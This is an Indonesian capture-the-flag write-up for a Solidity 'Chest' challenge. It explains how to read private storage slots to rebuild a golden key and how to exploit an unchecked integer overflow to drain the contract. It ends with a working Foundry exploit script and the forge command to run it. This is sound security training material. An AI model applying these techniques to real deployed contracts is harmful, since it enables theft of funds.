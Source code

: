 # Solution
Goal dari challenge ini adalah untuk menguras `treasures` sampai kurang atau sama dengan 0. Untuk mencapai goal ini kita dapat menggunakan `loot()`, namun kita perlu mengganti `locked` menjadi `false` terlebih dahulu menggunakan `unlock()` dengan memberikan kunci yang benar. Kunci tersebut terkonstruksi dari kompinasi yang tersimpan di state variable `combinations` yang merupakan dynamic array dengan visibility `private` jadi kita tidak bisa mendapatkan nilai tersebut secara langsung dengan memanggil variablenya. Untuk state variable di smart contract itu disimpan pada contract storage dan untuk dynamic array dan mappings tersimpan menggunakan slot yang unik dengan rumus sebagai berikut:
`array` : 
```sol
bytes32(uint256(keccak256(abi.encode(uint256(slot)))) + index)
```
`mappings`:
```sol
bytes32(uint256(keccak256(abi.encode(key, uint256(slot)))))
```
Array `combinations` tersimpan di slot 0 menurut urutan di state variable dan mappings `golden_key` terdapat pada slot 1 
Untuk mendapatkan key dari mappingnya dapat menggunakan dikonstruksi menggunakan nilai-nilai dari `combinations`:
```sol
address(uint160(combination1 >> 86 | combination2))
```
Kemudian tinggal panggil `loot()` dengan key sebagai argumen untuk merubah `locked` menjadi `false`. Setelah itu, kita dapat menguras `treasures` dengan memanggil `loot()` dengan nilai yang kurang atau sama dengan `limit`, namun cara ini memerlukan waktu yuang sangat lama karena nilai `treasures` yang besar. Perlu diperhatikan bahwa versi yang solidty yang digunakan smart contract ini adalah `0.6.0` dan untuk versi solidity dibawah `0.8.0` secara default operasi aritmatika bisa berpotensi integer overflow / underflow. Karena hasil operasi dikonversi ke `uint64` dan kurang dari `limit` maka kita dapat menggunakan nilai berikut:
```sol
(1 << 64) + 10000
```
Berikut script foundry untuk solve challenge ini:
`ChestHack.s.sol`:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console2.sol";

interface Setup {
    function TARGET() external view returns (Chest);
}

interface Chest {
    function unlock(uint256 _key) external;

    function loot(int256 _amount) external;
}

contract Solve is Script {
    Chest target;
    Setup setup = Setup(0x9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0); // Setup address
    address player;

    function setUp() external payable {
        // Private key
        player = vm.addr(
            0x59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
        );
        vm.startBroadcast(player);
    }

    function run() external {
        target = Chest(setup.TARGET());
        bytes32 startSlot = keccak256(abi.encode(uint256(0)));
        uint256 combination1 = uint256(
            vm.load(address(target), bytes32(uint256(startSlot)))
        );
        uint256 combination2 = uint256(
            vm.load(address(target), bytes32(uint256(startSlot) + 1))
        );

        console2.log("Combination 1: ", combination1);
        console2.log("Combination 2: ", combination2);
        address key = address(uint160((combination1 >> 86) | combination2));
        bytes32 slotKey = keccak256(abi.encode(key, uint256(1)));
        uint256 golden_key = uint256(vm.load(address(target), slotKey));
        console2.log("Golden key: ", golden_key);
        target.unlock(golden_key);
        target.loot((1 << 64) + 10_000);

        vm.stopBroadcast();
    }
}
```
```bash
forge script script/ChestHack.s.sol:Solve --broadcast --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> 
```
